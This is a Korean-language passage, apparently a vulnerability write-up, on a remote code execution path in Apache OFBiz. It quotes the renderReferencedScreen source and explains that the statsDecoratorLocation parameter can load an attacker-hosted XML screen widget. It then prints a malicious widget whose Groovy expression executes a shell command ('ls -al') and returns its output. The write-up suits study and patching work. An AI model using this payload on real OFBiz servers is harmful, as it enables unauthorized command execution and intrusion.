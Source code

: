 `StatsSinceStart` 뷰를 렌더링할 때, 같이 전달되는 `statsDecoratorLocation` 파라미터는 `ScreenFactory.java` 파일 내 `renderReferencedScreen` 메서드에서 처리합니다.

🔍 /framework/widget/src/main/java/org/apache/ofbiz/widget/model/ScreenFactory.java 일부

```java
public static void renderReferencedScreen(String name, String location, ModelScreenWidget parentWidget, Appendable writer, Map<String, Object> context, ScreenStringRenderer screenStringRenderer) throws GeneralException {
    // check to see if the name is a composite name separated by a #, if so split it up and get it by the full loc#name
    if (ScreenFactory.isCombinedName(name)) {
        String combinedName = name;
        location = ScreenFactory.getResourceNameFromCombined(combinedName);
        name = ScreenFactory.getScreenNameFromCombined(combinedName);
    }

    ModelScreen modelScreen = null;
    if (UtilValidate.isNotEmpty(location)) {
        try {
            modelScreen = ScreenFactory.getScreenFromLocation(location, name);
        } catch (IOException | SAXException | ParserConfigurationException e) {
            String errMsg = "Error rendering included screen named [" + name + "] at location [" + location + "]: " + e.toString();
            Debug.logError(e, errMsg, module);
            throw new RuntimeException(errMsg);
        }
    } else {
        modelScreen = parentWidget.getModelScreen().getModelScreenMap().get(name);
        if (modelScreen == null) {
            throw new IllegalArgumentException("Could not find screen with name [" + name + "] in the same file as the screen with name [" + parentWidget.getModelScreen().getName() + "]");
        }
    }
    modelScreen.renderScreenString(writer, context, screenStringRenderer);
}
```

결과적으로, `statsDecoratorLocation` 파라미터에 외부 서버에 저장 되어있는 XML 파일을 가리킨 다음, 해당 XML에 스크린 위젯(`<screen>`)을 정의하여 임의 명령어를 실행시킬 수 있습니다.

## 악성 스크린 위젯(XML) 작성

임의 명령어(`ls -al`)를 실행하는 스크린 위젯(`<screen>`)은 다음과 같습니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen" http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:throw new Exception('ls -al'.execute().text);}"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>

</screens>
```
